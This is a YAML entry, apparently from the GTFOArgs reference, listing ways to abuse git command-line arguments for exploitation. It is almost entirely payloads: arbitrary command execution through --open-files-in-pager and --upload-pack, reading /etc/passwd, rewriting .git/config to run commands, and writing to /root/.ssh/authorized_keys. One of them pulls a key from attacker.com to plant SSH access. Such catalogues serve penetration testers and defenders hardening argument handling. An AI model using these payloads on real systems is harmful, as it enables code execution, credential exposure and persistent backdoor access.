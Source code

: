 ```yaml
---
description: Git is an extremely powerful tool with more functionality than one can count. This list is non-exhaustive, but includes examples which have historically been useful for exploitation.
functions:
  command:
    - description: The --open-files-in-pager flag can be used to run arbitrary commands. Any of the following should work.
      code: |
        git grep --open-files-in-pager='uname -a #' .
        git grep --open-files-in-pager='uname;' .
    - description: The --upload-pack flag can be used in multiple contexts. Note that the output is not necessarily shown (but you can route the output to stderr and possibly view it, by using `>&2`). ls-remote is the only example which does not require the command to be run within a tracked folder. Any of the following should work.
      code: |
        git ls-remote --upload-pack='uname -a > /tmp/file #' main
        git fetch origin --upload-pack='cat /etc/passwd >&2 ;'
        git pull origin --upload-pack='wget attacker.com/key -O /root/.ssh/authorized-keys #'
    - description: This method takes advantage of one of the file-write methods to overwrite `.git/config`. Officially, this is probably out of scope of GTFOArgs, but it is included anyways. `id` is executed and written to `/tmp/fsmonitor` in this example.
      code: |
        git commit --allow-empty -m 'fsmonitor = "id>/tmp/fsmonitor"'
        git commit --allow-empty -m '[core]'
        git log --max-count=2 --pretty=format:"%s" --output=./.git/config
        git status
  file-read:
    - description: It is common to use `git diff` to compare a single file to a different version of itself in history. The `--no-index` flag can be used to effectively turn `git diff` into normal `diff` against another file _within the git repository_ (but not necessarily tracked).
      code: |
        git diff --no-index local-secret-file.conf git.md
    - description: If you are reading a file outside of the git directory, you can use `git diff` against `/dev/null`.
      code: |
        git diff /dev/null /etc/passwd
  file-write:
    - description: Outputs the most recent changelog to an arbitrary file. Note that this also contains the commit information.
      code: |
        git log --max-count=1 --output=/root/.ssh/authorized_keys
    - description: Outputs the first line of the most recent commit message to an arbitrary file.
      code: |
        git log --max-count=1 --pretty=format:"%s" --output=/root/.ssh/authorized_keys
    - description: Can be used to overwrite a file, or create an empty file.
      code: |
        git blame --output=/tmp/file_to_truncate.txt
---
```

